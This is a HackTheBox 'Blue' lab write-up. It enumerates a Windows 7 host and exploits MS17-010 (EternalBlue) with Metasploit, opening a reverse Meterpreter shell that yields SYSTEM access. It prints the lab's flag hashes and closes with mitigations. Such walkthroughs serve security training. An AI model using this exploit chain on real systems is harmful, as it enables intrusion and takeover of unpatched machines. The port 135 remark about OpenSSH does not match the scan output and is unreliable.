

# HackTheBox - Blue Write-up 🇬🇧

## Introduction

Hello everyone!

Here is my write-up for the "Blue" box on HackTheBox—a box classified as easy and focusing on the EternalBlue vulnerability, which has been used in multiple large-scale ransomware and crypto-mining attacks.

As usual, throughout this guide, I will review the common steps of a penetration test:

- Reconnaissance
- Exploitation
- Post-exploitation

## Information

- 💻 **Machine Type**: Windows
- **🧠 Main Skills Tested**: Enumeration, SMB exploitation.
- **📦 Tools Used**: Nmap, smbclient, Metasploit.

This machine is a great opportunity to practice SMB enumeration and exploitation against a Windows host, and to get hands-on with Metasploit.

Let's get started!

---

## Preparation

First, we can add the target IP address to the `/etc/hosts` file to facilitate interaction with the target machine.

```bash
echo "10.129.164.129 target" | sudo tee -a /etc/hosts

```

Or with nano:

```bash
sudo nano /etc/hosts
10.129.164.129 target # Add this line

```

This allows us to access the IP address `10.129.164.129` via the following name: `target`.

**Warning: The target IP address `10.129.164.129` may change during the write-up.**

Let's verify our connection to the HackTheBox VPN with a simple ping to the target machine:

```bash
ping -c 4 target
PING target (10.129.164.129) 56(84) bytes of data.
64 bytes from target (10.129.164.129): icmp_seq=1 ttl=127 time=96.9 ms
64 bytes from target (10.129.164.129): icmp_seq=2 ttl=127 time=119 ms
64 bytes from target (10.129.164.129): icmp_seq=3 ttl=127 time=143 ms
64 bytes from target (10.129.164.129): icmp_seq=4 ttl=127 time=61.6 ms

--- target ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3008ms
	rtt min/avg/max/mdev = 61.639/105.070/142.651/29.847 ms
```

This also allows us to verify that the target machine is accessible from our attacking machine.

Note that this verification will not work if the target machine blocks ICMP requests; in that case, another verification method will be needed.

## Enumeration

As usual, we can start our (active) enumeration by performing our Nmap scan using the aggressive `-A` template to gather as much information as possible during our first scan.

```bash
nmap -A -oN scan.txt -oX scan.xml target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 11:00 CEST
Nmap scan report for target (10.129.164.129)
Host is up (0.11s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows 7|2008|8.1|2012|Vista|2016|10 (98%)
OS CPE: cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::sp1:home_premium cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (98%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (95%), Microsoft Windows Windows 7 SP1 (95%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows 7 or Windows Server 2008 R2 or Windows 8.1 (95%), Microsoft Windows 7 SP1 (94%), Microsoft Windows 8 (93%), Microsoft Windows Vista Enterprise (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m47s, deviation: 34m36s, median: 10s
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-08-18T10:02:12+01:00
| smb2-time:
|   date: 2025-08-18T09:02:09
|_  start_date: 2025-08-18T08:50:35
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   113.17 ms 10.10.16.1
2   34.65 ms  target (10.129.164.129)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.76 seconds
```

Okay, our scan has completed successfully. From this result, we can gather several pieces of information:

- **Port 135**: Port 135 (MSRPC) is open; the machine also seems to be using the OpenSSH service version 8.9p1 → This means that with functional credentials, we can connect via SSH to the target machine.
- **Port 139/445**: Both ports are open and are related to the SMB protocol (older versions were running on port 139); the machine thus seems to have SMB shares available which is very important to know.

→ NSE scripts and OS detection indicate that the target is likely a Windows 7 machine.

To clarify things, we can use the script I recently developed: [Nmap2Table](https://github.com/0xMR007/Nmap2Table.git)

```bash
nmap2table scan.xml
Starting main script...

Extracting nmap data from /home/mr007/CTFs/HackTheBox/Blue/scan.xml
Generating output to /home/mr007/CTFs/HackTheBox/Blue/table.md
Successfully wrote to file : /home/mr007/CTFs/HackTheBox/Blue/table.md

ls
scan.txt  scan.xml  table.md
```

We obtain the following result in markdown:

### Host: 10.129.2.27 (target)

| Port/Protocol | State | Service      | Version                                                 |
| ------------- | ----- | ------------ | ------------------------------------------------------- |
| 135/tcp       | open  | msrpc        | Microsoft Windows RPC                                   |
| 139/tcp       | open  | netbios-ssn  | Microsoft Windows netbios-ssn                           |
| 445/tcp       | open  | microsoft-ds | Windows 7 Professional 7601 Service Pack 1 microsoft-ds |
| 49152/tcp     | open  | msrpc        | Microsoft Windows RPC                                   |
| 49153/tcp     | open  | msrpc        | Microsoft Windows RPC                                   |
| 49154/tcp     | open  | msrpc        | Microsoft Windows RPC                                   |
| 49155/tcp     | open  | msrpc        | Microsoft Windows RPC                                   |
| 49156/tcp     | open  | msrpc        | Microsoft Windows RPC                                   |
| 49157/tcp     | open  | msrpc        | Microsoft Windows RPC                                   |

### Q1 - How many open TCP ports are listening on Blue? Don't include any 5-digit ports.

Well, based on the previous table, there are only 3 TCP ports open that don’t have 5 digits.

**Answer :** `3`

### Q2 - What is the hostname of Blue?

Thanks to OS detection and the NSE scripts, we can also answer this question: the hostname is `HARIS-PC`.

**Answer :** `HARIS-PC`

### Q3 - What operating system is running on the target machine? Give a two-word answer with a name and high-level version.

For this question, I tried the first OS guess provided by detection, and it worked.

**Answer :** `Windows 7`

### Q4 - How many SMB shares are available on Blue?

For this question we’re going to use the tool `smbclient` which is used to interact with SMB shares.

Let’s try to list out the shares available on the target machine.

```bash
smbclient -L target -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk
	Users           Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to target failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

**Command explanation:** We list available SMB shares (`-L`) on `target` without a password (`-N`), since we do not have credentials.

Great! We managed to list the SMB shares. There are `5` shares available.

**Answer :** `5`

### Q5 - What 2017 Microsoft Security Bulletin number describes a remote code execution vulnerability in SMB?

After a bit of research, the relevant Microsoft Security Bulletin is `MS17-010`.

**Answer : `MS17-010`**

### Q6 - Optional question: A worm was set loose on the internet in May 2017 propagating primarily through MS17-010. What is the famous name for that malware?

Similarly, `MS17-010` was exploited by the famous WannaCry ransomware.

**Answer :** `WannaCry`

## Exploitation

### Q7 - What user do you get execution with when exploiting MS17-010? Include the full name, including anything before a .

Good, we now need to exploit the target machine via the **`MS17-010` (EternalBlue)** vulnerability.

To do that we can use _Metasploit_ which is a useful penetration testing framework that includes various modules for each section of a pentest (auxiliary for enum, exploits, post-exploitation, etc…).

If you are not familiar with Metasploit you can complete Tryhackme’s module (cf link below) which gives you a complete introduction to it.

[Metasploit module on TryHackMe](https://tryhackme.com/module/metasploit)

Let's start the Metasploit console.

```bash
msfconsole
Metasploit tip: The use command supports fuzzy searching to try and
select the intended module, e.g. use kerberos/get_ticket or use
kerberos forge silver ticket

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 432 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

Perfect! We now have our Metasploit console, let’s search if there’s any exploit module available for the **MS17-010** vulnerability.

```bash
msf6 > search ms17

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank     Check  Description
   -   ----                                                  ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue              2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                         .                .        .      .
   2     \_ target: Windows 7                                .                .        .      .
   3     \_ target: Windows Embedded Standard 7              .                .        .      .
   4     \_ target: Windows Server 2008 R2                   .                .        .      .
   5     \_ target: Windows 8                                .                .        .      .
   6     \_ target: Windows 8.1                              .                .        .      .
   7     \_ target: Windows Server 2012                      .                .        .      .
   8     \_ target: Windows 10 Pro                           .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation         .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec                   2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                                .                .        .      .
   12    \_ target: PowerShell                               .                .        .      .
   13    \_ target: Native upload                            .                .        .      .
   14    \_ target: MOF upload                               .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                              .                .        .      .
   16    \_ AKA: ETERNALROMANCE                              .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                             .                .        .      .
   18    \_ AKA: ETERNALBLUE                                 .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command                  2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                              .                .        .      .
   21    \_ AKA: ETERNALROMANCE                              .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                             .                .        .      .
   23    \_ AKA: ETERNALBLUE                                 .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010                    .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                                .                .        .      .
   26    \_ AKA: ETERNALBLUE                                 .                .        .      .
   27  exploit/windows/fileformat/office_ms17_11882          2017-11-15       manual   No     Microsoft Office CVE-2017-11882
   28  auxiliary/admin/mssql/mssql_escalate_execute_as       .                normal   No     Microsoft SQL Server Escalate EXECUTE AS
   29  auxiliary/admin/mssql/mssql_escalate_execute_as_sqli  .                normal   No     Microsoft SQL Server SQLi Escalate Execute AS
   30  exploit/windows/smb/smb_doublepulsar_rce              2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   31    \_ target: Execute payload (x64)                    .                .        .      .
   32    \_ target: Neutralize implant                       .                .        .      .

Interact with a module by name or index. For example info 32, use 32 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'
```

There are many modules available but we need to focus on the EternalBlue one. Thus, let’s use the first one and check its options.

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                             t/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Wi
                                             ndows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines
                                             .
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2
                                             008 R2, Windows 7, Windows Embedded Standard 7 target machines.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.48     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

View the full module info with the info, or info -d command.
```

Great. It seems we only need to set the `RHOSTS` and `LHOST` options, which are respectively the remote target's IP address and our local IP address (the one on your HTB interface).

Let’s set these and run the exploit.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => 10.10.16.21
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts target
rhosts => target
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.16.21:4444
[*] 10.129.2.27:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.2.27:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.129.2.27:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.2.27:445 - The target is vulnerable.
[*] 10.129.2.27:445 - Connecting to target for exploitation.
[+] 10.129.2.27:445 - Connection established for exploitation.
[+] 10.129.2.27:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.2.27:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.2.27:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.2.27:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.2.27:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.129.2.27:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.2.27:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.2.27:445 - Sending all but last fragment of exploit packet
[*] 10.129.2.27:445 - Starting non-paged pool grooming
[+] 10.129.2.27:445 - Sending SMBv2 buffers
[+] 10.129.2.27:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.2.27:445 - Sending final SMBv2 buffers.
[*] 10.129.2.27:445 - Sending last fragment of exploit packet!
[*] 10.129.2.27:445 - Receiving response from exploit packet
[+] 10.129.2.27:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.2.27:445 - Sending egg to corrupted connection.
[*] 10.129.2.27:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.129.2.27
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.10.16.21:4444 -> 10.129.2.27:49158) at 2025-08-18 18:26:27 +0200

meterpreter >
```

Amazing! We obtained a Meterpreter session on the target machine. Let's see which user it's running as.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

The Meterpreter session is running under the user `NT AUTHORITY\SYSTEM`, which is the most powerful user on a Windows machine. We have full control of the target machine.

**Answer :** `NT AUTHORITY\SYSTEM`

### Flags

Now that we have access to the target machine, we can retrieve the flags and finish the Blue machine.

```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd /
meterpreter > cd Users\\haris\\Desktop\\
meterpreter > ls
Listing: C:\Users\haris\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-15 09:58:32 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  user.txt

meterpreter > cat user.txt
fed8801022975aad64bbbb59f608b531

meterpreter > cd /
meterpreter > cd Users\\Administrator\\Desktop\\
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-21 08:56:40 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  root.txt

meterpreter > cat root.txt
c43865a2cb4396db455f845222344c48
```

Congrats! 🥳 We now have finished the **Blue** machine on HackTheBox!

**Answers:**

- **user.txt → `fed8801022975aad64bbbb59f608b531`**
- **root.txt → `c43865a2cb4396db455f845222344c48`**



## Summary

This machine was about exploiting a Windows host vulnerable to the famous **EternalBlue** vulnerability. First, we performed enumeration to identify SMB services and OS details. We then exploited EternalBlue using Metasploit to obtain SYSTEM-level access. Finally, we retrieved the flags and completed the machine!

## What I learned

- How to use Nmap and smbclient to enumerate SMB shares.
- How dangerous the EternalBlue vulnerability is.
- How to use Metasploit to exploit EternalBlue.

## Mitigations

- Update the Windows machines to the latest patches.
- Restrict access to the SMB shares.
- Setup password policies for SMB.
- Use the latest version of SMB.

## Acknowledgements

If you’ve made it this far—thank you! Sharing knowledge is what makes the CTF community truly awesome.

I hope this write-up was helpful or at least interesting. And remember:

_Every vulnerability is a lesson in disguise—the more we break, the more we understand how to build._